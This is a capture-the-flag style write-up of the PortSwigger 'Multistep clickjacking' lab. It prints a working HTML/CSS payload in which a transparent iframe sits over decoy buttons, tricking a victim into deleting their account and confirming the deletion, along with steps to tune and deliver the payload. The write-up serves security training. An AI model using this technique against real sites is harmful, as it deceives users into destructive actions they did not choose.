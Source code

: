 # Multistep clickjacking

## Description

[This lab](https://portswigger.net/web-security/clickjacking/lab-multistep) has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against clickjacking.

## Reproduction and proof of concept

1. Log in to the `wiener:peter` account on the target website.
2. Create payload:

* The iframe `src` URL points to the target website vulnerable page. In this case, the target website's user account page, and depends on the unique `lab-id`.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `$top_value1` and `$side_value1` values of resp `330px` and `50px` to align the "Delete account" button with the "Test me first" decoy action.
* Initial `$top_value2` and `$side_value2` variables of resp. `285px` and `225px` to align the "Test me next" decoy action with the "Yes" button on the confirmation page. 

```text
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.5;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:495px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:285px;
		left:200px;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="https://0a0100e003ab414dc0dbe6e7003a004a.web-security-academy.net/my-account"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over **Test me first** to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, adjust the position of the div element by modifying the top and left properties inside the `firstClick` class of the style sheet. 
5. Click **Test me first** then hover over **Test me next** and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If it is not, adjust the position of the div element by modifying the `top` and `left` properties inside the `secondClick` class of the style sheet. 
5. Change "Test me first" to "Click me first", "Test me next" to "Click me next", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](../../_static/images/clickjacking9.png)

6. **Deliver exploit to victim**

## Exploitability

An attacker needs to have access to the site (`wiener:peter`) and construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. 